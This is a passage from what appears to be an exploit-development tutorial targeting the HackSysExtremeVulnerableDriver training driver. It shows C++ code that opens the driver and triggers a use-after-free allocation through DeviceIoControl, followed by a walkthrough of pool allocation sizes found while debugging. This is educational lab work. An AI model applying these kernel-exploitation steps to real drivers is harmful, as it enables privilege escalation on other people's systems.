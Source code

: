 ```cpp

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver\n";
        exit(1);
    }

    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: " << hex
        << hFile << "\n";

    return hFile;
}

void create_UAF_object(HANDLE hFile) {

    BYTE input_buffer[] = "\x00";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        ALLOCATE_UAF_IOCTL,
        input_buffer,
        sizeof(input_buffer),
        NULL,
        0,
        &bytes_ret,
        NULL);
}


int main() {

    HANDLE hFile = grab_handle();

    create_UAF_object(hFile);

    return 0;
}
```

You can see from the IDA screenshot that after the call to `ExAllocatePoolWithTag`, `eax` is placed in `esi`, this is about where I've placed the breakpoint, we can then take the value in `esi` which should be a pointer to our allocation, and go see what the allocation will look like after the subsequent `memset` operation completes. We can see some static values as well, such as waht appears to be the size of the allocation (`0x58`), which we know from our last post is actually undersold by `0x8` since we have to account also for the pool header, so our real allocation size in the pool is `0x60` bytes. 
